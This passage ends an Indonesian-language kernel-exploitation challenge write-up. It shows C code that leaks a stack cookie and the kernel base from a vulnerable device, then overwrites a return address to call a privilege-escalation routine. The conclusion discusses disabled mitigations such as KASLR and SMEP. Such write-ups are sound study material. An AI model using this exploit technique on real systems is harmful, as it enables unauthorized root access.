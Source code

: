 ```
    unsigned long buff[50];
    read(fd,buff,sizeof(buff));

    /*for(int i=0; i< 50; i++){
        printf("%d: 0x%016lx\n" ,i, buff[i]);
    }*/
    cookie = buff[16];
    kbase = buff[38] - 0xa157; //0xffffffff8100a157 - 0xa157 = 0xffffffff81000000
}

void open_dev()
{
    fd = open(DEV,O_RDWR);
    if(fd==-1){
        perror("open(fd)");
        exit(EXIT_FAILURE);
    }
}

int main()
{
    save_state();
    open_dev();

    leak();

    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)escalate_privs; // ret

    puts("[*] payload");
    write(fd, payload, sizeof(payload));
  
    close(fd);
    return 0;
}

```

Kesimpulan
---
pada tantangan kali ini, tentu saya hanya membahas bagian yang paling dasar, tanpa mengaktifkan satupun mitigasi seperti KASLR, SMEP, SMAP, KPTI. walaupun sebenarnya banyak mitigasi lain di kernel linux modern saat ini, seperti pengacakan daftar bebas, pengerasan daftar bebas,pengacakan cache kmalloc, pengerasan usercopy, KCFI dan lainnya. dikesempatan selanjutnya, saya akan menulis namun dengan tantangan lain dan juga belajar untuk melewati mitigasi satu persatu dan mungkin akan membahas topik yang lebih kompleks seperti teknik cross cache dan dirty page table. jika ada yang salah dari apa yang saya sampaikan ataupun ingin bertanya tentang tantangan kali ini, jangan sungkan untuk mengirim email, terima kasih.  
---
